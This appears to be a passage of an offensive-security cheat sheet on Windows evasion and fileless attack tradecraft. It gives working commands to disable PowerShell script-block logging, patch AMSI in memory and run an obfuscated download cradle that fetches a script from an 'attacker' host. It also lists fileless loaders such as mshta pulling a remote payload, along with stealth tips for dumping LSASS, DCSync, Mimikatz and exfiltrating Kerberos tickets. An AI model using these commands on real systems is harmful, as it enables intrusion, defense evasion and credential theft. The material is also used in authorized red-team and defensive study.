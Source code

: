 🧠 Goal: “no file writes, no command history, no signature triggers.”

***

### VI. 🔒 PowerShell & AMSI Evasion

#### 🔹 Disable Logging (Temporary)

```powershell
Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 0
```

#### 🔹 AMSI Patch (In-memory)

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

#### 🔹 Obfuscation Example

```powershell
$e='IEX(New-Object Net.WebClient).DownloadString("http://attacker/p.ps1")'
$e -replace "IEX","I`EX" | iex
```

#### 🧠 Rule

> Don’t disable globally — patch **per session**; it’s stealthier.

***

### VII. 🧩 Fileless Execution Techniques

| Technique                   | Description                     | Example                                                            |
| --------------------------- | ------------------------------- | ------------------------------------------------------------------ |
| **PowerShell IEX**          | Load from web to memory         | `IEX(New-Object Net.WebClient).DownloadString()`                   |
| **WMI**                     | Execute script in memory        | `wmic process call create "powershell -enc ..."`                   |
| **Reflective Injection**    | Load DLLs directly into process | `Invoke-ReflectivePEInjection`                                     |
| **HTA + mshta**             | Inline script loader            | `mshta http://attacker/payload.hta`                                |
| **.NET Assembly Execution** | Load EXE as Assembly            | `[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("file.exe"))` |
| **Python / Bash Inline**    | Memory-only loader              | `python3 -c 'exec(open("/dev/shm/x").read())'`                     |

🧠 Fileless = zero AV signature, near-zero forensics.

***

### VIII. 🧠 Credential Operations OPSEC

| Action           | Stealth Technique                                        |
| ---------------- | -------------------------------------------------------- |
| Dumping LSASS    | Duplicate handle, suspend process, or use API-based dump |
| DCSync           | Use low-traffic hours, limit query to 1–2 users          |
| Mimikatz         | Load in-memory only; self-delete binary                  |
| Kerberos Tickets | Rename `.kirbi` → `.dat`; exfil via encrypted channel    |
| Pass-the-Hash    | Reuse with Impacket silently (`-no-pass` mode)           |
